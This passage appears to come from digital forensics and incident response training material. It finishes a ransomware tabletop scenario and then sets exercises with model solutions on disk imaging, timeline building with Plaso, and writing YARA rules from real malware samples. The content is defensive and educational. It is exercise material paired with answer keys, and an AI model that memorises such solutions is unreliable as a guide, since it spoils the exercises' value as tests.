Inject 1 (Detection): SOC email alert — multiple file rename events on file server. Decision: Is this a true positive? Roles: SOC analyst triages, confirms ransomware. Inject 2 (Containment): Isolate affected server from network, preserve memory. Decision: Disconnect host or isolate on switch? Roles: IR lead decides containment strategy, IT executes. Inject 3 (Eradication): Identify patient zero, scan all systems for persistence. Inject 4 (Recovery): Restore from offline backups. Inject 5 (Post-Mortem): Root cause analysis, update playbook.
</details>

### Challenge Problems

1. **Full Forensic Investigation:** Create a forensic image of a simulated compromised system (use a deliberately vulnerable VM). Conduct a complete investigation:
   - Identify the initial compromise vector
   - Trace the attacker's actions (timeline)
   - Recover deleted evidence
   - Identify data exfiltrated
   - Write a complete forensic report suitable for court

<details>
<summary>Solution</summary>
Create image: `dd if=/dev/sda of=image.dd bs=4M`. Use Plaso for timeline: `log2timeline --storage timeline.plaso image.dd`, then `psort -o l2tcsv timeline.plaso > timeline.csv`. Use foremost for file carving. Use Volatility for memory analysis (if RAM acquired). Verify compromise vector via log analysis (auth.log, access.log). Reconstruct timeline with Plaso timeline. Write report: executive summary, methodology, findings (screenshots), timeline, chain of custody, tools used, conclusions.
</details>

2. **YARA Rule Development:** Analyze 5 real malware samples (from MalwareBazaar). Create custom YARA rules that detect each sample based on:
   - Strings (unique patterns)
   - File metadata (PE sections, compile time)
   - Behavioral indicators (imports, resources)
   Test your rules against clean files to confirm no false positives.

<details>
<summary>Solution</summary>
Use pestudio/pecheck to analyze PE structure. Identify unique strings, import table (e.g., CryptEncrypt, CreateRemoteThread), section names (e.g., .upack, .UPX0), compile timestamps. Write YARA rule with meta, strings, and condition sections. Test: `yara -r rule.yar /clean/samples/` — aim for 0 false positives. Test: `yara -r rule.yar /malware/samples/` — confirm detection.
</details>

3. **Timeline Analysis:** Use Plaso (log2timeline) to create a super timeline from a forensic image. Use psort to filter by event type. Identify:
   - When the compromise occurred
   - What files were accessed after compromise
   - What network connections were made
   - What registry keys were modified
   Create a visual timeline in Kibana or Timeline Explorer.

<details>
<summary>Solution</summary>
`log2timeline --storage timeline.plaso image.dd`, then `psort -o l2tcsv -q timeline.plaso > timeline.csv`. Filter by event type: `Select-String "FILE" timeline.csv` or `Select-String "REG" timeline.csv`. Look for anomalous events around compromise time. For Kibana: convert to JSON and import. Create visual timeline: x-axis = timestamp, y-axis = event type, color = severity. Key markers: first malicious file creation, registry Run key modification, outbound connection to unknown IP.
</details>
